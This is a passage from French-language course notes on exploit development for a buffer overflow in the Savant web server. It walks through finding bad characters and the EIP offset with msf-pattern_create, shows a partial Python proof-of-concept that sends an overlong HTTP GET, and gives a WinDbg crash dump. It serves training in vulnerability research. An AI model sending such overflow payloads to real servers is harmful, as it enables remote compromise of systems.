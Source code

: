 Il y a donc un mauvais caractère dans cette ligne :

- Si on enlève `\x26` on a un dépassement de tampon, mais qui ne réécrit pas `EIP`, indiquant que le mauvais caractère est toujours la
- Si on élève `\x25` on a un  dépassement de tampon qui réécrit le `EIP`
  - C'est donc un mauvais caractère

On continue jusqu'à remonter à la première ligne. Les mauvais caractères identifient sont : `0x00` - `0x0D` - `0x0A` - `0x25`

### Déterminer l'offset exact

Une fois de plus, on veut identifier l'offset exact qui réécrit `EIP`. On génère un pattern unique :

```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ msf-pattern_create -l 260 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai
```

On met a jour la preuve d'exploitation :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 260

  httpMethod = b"GET /"
  inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai"
  httpEndRequest = b"\r\n\r\n"

  buf = httpMethod + inputBuffer +  httpEndRequest
```

L'exécution de la preuve de concept entraine un dépassement de tampon, mais `EIP` n'est pas réécrit par un *pattern* unique :

```powershell
(1210.132c): Access violation - code c0000005 (first chance)
[...]
eax=00694135 ebx=01935778 ecx=de4eadbe edx=00000001 esi=01935778 edi=0041703c
eip=0040c05f esp=045ee6b8 ebp=045eea24 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
Savant+0xc05f:
0040c05f 8b08            mov     ecx,dword ptr [eax]  ds:0023:00694135=????????
```
